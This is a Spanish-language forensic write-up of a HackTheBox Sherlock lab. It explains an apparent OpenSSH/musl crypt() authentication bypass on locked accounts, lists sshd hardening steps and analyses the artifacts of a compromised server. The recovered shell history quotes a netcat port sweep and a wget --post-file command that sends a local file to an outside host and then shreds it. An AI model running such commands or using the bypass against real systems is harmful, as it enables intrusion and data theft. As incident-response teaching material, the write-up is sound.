





# Resolución: Vulnerabilidad *sshole* (CVE-2026-123158)

## 1. Arquitectura y Dependencias
Para que un sistema sea vulnerable a *sshole*, se requiere la convergencia estricta de tres componentes específicos en su arquitectura:

1. **Biblioteca C (libc):** El sistema debe utilizar **`musl libc`** en lugar de la tradicional `glibc`. Esto es muy común en distribuciones ligeras orientadas a contenedores Docker, como Alpine Linux.
2. **Gestor de Autenticación:** El servicio SSH debe estar operando **sin el soporte de PAM** (*Pluggable Authentication Modules*). Esto ocurre si OpenSSH fue compilado sin soporte PAM o si está explícitamente deshabilitado (`UsePAM no` en la configuración).
3. **Demonio SSH:** Una versión vulnerable de **OpenSSH** que dependa directamente de la función `crypt()` del sistema para validar las contraseñas contra el archivo `/etc/shadow`.

**¿Por qué los sistemas con `glibc` y PAM están exentos?**
Los sistemas tradicionales (como Ubuntu o Debian) utilizan `glibc`, cuya implementación de `crypt()` maneja las entradas anómalas de manera diferente. Más importante aún, al utilizar **PAM** (`UsePAM yes`), la validación de la cuenta no se limita a una simple comparación de cadenas de texto (hashes). PAM verifica de manera independiente y robusta el estado de la cuenta (si está bloqueada, expirada o deshabilitada), bloqueando el acceso antes de que cualquier colisión a nivel de `crypt()` pueda ser explotada.

---

## 2. Mecánica de la Colisión

El bypass de autenticación se produce por una falla lógica fatal en cómo interactúan estos tres elementos: la gestión del *salt* en OpenSSH, el manejo de errores de `musl libc` y el envío de un payload sobredimensionado. El proceso ocurre de la siguiente manera:

1. **Gestión del Salt en OpenSSH:** Cuando un usuario intenta iniciar sesión, OpenSSH busca la cuenta en `/etc/shadow` y extrae su campo de contraseña. En cuentas bloqueadas o de sistema (como `root` en Alpine, o `bin`), este campo no contiene un hash real, sino un asterisco (`*`) o una exclamación (`!`). OpenSSH toma esta cadena completa y la pasa como el parámetro **salt** a la función `crypt(password, salt)`.
2. **Inyección de Contraseña Larga:** El atacante intenta autenticarse en esa cuenta bloqueada inyectando una contraseña anormalmente larga (superior a 256 caracteres).
3. **Manejo de Errores en musl libc:** La función `crypt()` de la librería `musl` recibe la contraseña gigante y el *salt* (que es `*`). Debido a una limitación interna de `musl`, no procesa contraseñas de más de 256 caracteres. En lugar de detener el servicio, la función aborta la operación de forma controlada y devuelve una cadena de error estandarizada, que resulta ser exactamente un asterisco (`*`).
4. **La Colisión y el Falso Positivo:** OpenSSH recibe el resultado de `crypt()` (el asterisco de error) y lo compara con el "hash" original almacenado en `/etc/shadow` (que también es un asterisco). Al evaluar la condición (`* == *`), la comparación resulta verdadera. OpenSSH asume erróneamente que la contraseña ingresada generó el hash correcto, ignorando que la cuenta es inaccesible, y otorga acceso interactivo al atacante.
---

## 3. Mitigación y Endurecimiento
Además de actualizar el paquete OpenSSH, se deben implementar medidas de **Defensa en Profundidad (Hardening)** editando el archivo de configuración `/etc/ssh/sshd_config` para reducir drásticamente la superficie de ataque:

* **Medida 1: Habilitar PAM (Pluggable Authentication Modules)**
  Obligar a OpenSSH a delegar la autenticación en PAM garantiza que se validen correctamente los estados de las cuentas bloqueadas.
  ```ini
  UsePAM yes
  ```

* **Medida 2: Restricción explícita de usuarios (AllowUsers / DenyUsers)**
  Implementar listas de control de acceso a nivel de SSH. Esto previene que se intente iniciar sesión en cuentas de sistema o cuentas bloqueadas, incluso si existe una colisión de hashes.
  ```ini
  # Solo permitir a usuarios humanos específicos
  AllowUsers admin d.zapata
  
  # Bloquear explícitamente el acceso de root u otras cuentas
  PermitRootLogin no
  ```

---

## 4. Análisis Forense de Incidente (HackTheBox Sherlock - *sshole*)

### Task 1 — ¿Qué distribución y versión de Linux ejecutaba el servidor?

Se consultó `etc/os-release`:

```powershell
Get-Content .\SSHole\etc\os-release
```




*Evidencia 02. Identificación del sistema operativo mediante `os-release`.*

### Task 2 — ¿Qué vulnerabilidad se aprovechó para obtener acceso?

Se examinó la entrada de la cuenta `adminsvc` en `etc/shadow`:

```powershell
Get-Content .\SSHole\etc\shadow | Select-String "adminsvc"
```

El símbolo `*` ocupa el campo de la contraseña, impidiendo normalmente la autenticación convencional mediante contraseña. Según el *writeup* del laboratorio, la vulnerabilidad **SSHole** afecta la interacción de OpenSSH con la función `crypt()` en determinadas implementaciones basadas en musl: una contraseña demasiado larga puede producir `*` como resultado de error y coincidir indebidamente con dicho campo.




*Evidencia 03. Registro de `adminsvc` en `/etc/shadow`.*

### Task 3 — ¿Cuándo se explotó la vulnerabilidad?

Se filtraron los mensajes SSH:

```powershell
Get-Content .\SSHole\var\log\messages | Select-String "sshd"
```

Eventos relevantes:

```text
Nov  6 11:27:05 ... Failed password for adminsvc from 192.168.72.1 port 61351 ssh2
Nov  6 11:27:08 ... Accepted password for adminsvc from 192.168.72.1 port 61351 ssh2
```

El evento **`Accepted password` a las 11:27:08** confirma que se aceptó una autenticación de contraseña para la cuenta investigada. El año `2026` se toma del contexto temporal del laboratorio y de su writeup, puesto que estas líneas de syslog no muestran el año explícitamente.



*Evidencia 04. Intento fallido seguido de autenticación aceptada para `adminsvc`.*

### Task 4 — ¿Qué cuenta de usuario se utilizó?

Tanto la entrada de `/etc/shadow` como los registros del servicio SSH identifican la cuenta `adminsvc`. El acceso aceptado provino de `192.168.72.1` en los artefactos analizados.

*Evidencias relacionadas: 03 y 04.*

### Task 5 — ¿Qué valor permite la omisión de autenticación?

El mecanismo descrito por el ejercicio depende de la coincidencia entre el carácter almacenado en `/etc/shadow` y el valor devuelto erróneamente por `crypt()`.

*Evidencia relacionada: 03.*

### Task 6 — ¿Qué comando se usó para reconocer la red interna?

Se revisó el historial de comandos de la cuenta comprometida:

```powershell
Get-Content .\SSHole\home\adminsvc\.ash_history
```

El historial incluía el comando siguiente:

```bash
for ip in {1..254}; do nc -zvw 1 192.168.18.$ip 1-65535 2>&1 | grep -E "succeeded|open"; done
```

El comando intenta comprobar puertos TCP mediante **Netcat (`nc`)** para direcciones de la subred `192.168.18.0/24`, filtrando mensajes que indiquen conexiones o puertos abiertos.



*Evidencia 05. Actividad registrada en `.ash_history`, incluido el reconocimiento y los comandos posteriores.*

También se revisó el reporte de resultados:

```powershell
Get-Content .\SSHole\home\adminsvc\scanreport.txt
```

| Equipo encontrado | Puertos listados en `scanreport.txt` |
| --- | --- |
| `192.168.18.5` | `443`, `445`, `3389` |
| `192.168.18.23` | `88`, `139`, `445`, `3389`, `6801`, `54321` |

La presencia de `88` (habitualmente Kerberos) y `445` (SMB) en el segundo equipo **sugiere** infraestructura vinculada a un dominio Windows; no basta para confirmar que sea un controlador de dominio.



*Evidencia 06. Archivo `scanreport.txt` con los dos equipos detectados.*

### Task 7 — ¿A qué URI se intentó exfiltrar un archivo?

En el mismo `.ash_history` se observa una petición que envía el contenido de un archivo local mediante HTTP POST:

```bash
wget --post-file=/tmp/.devenv -O- https://devv.coding.eu/process
shred -u /tmp/.devenv
```

La opción `--post-file` indica un intento de subir el contenido del archivo `.devenv` al destino remoto; `shred -u` intenta sobrescribir y eliminar el archivo. El historial **no demuestra por sí solo que el servidor remoto recibiera los datos correctamente**, pero sí deja constancia del comando de exfiltración introducido.


> **Evidencia de desafio completado**


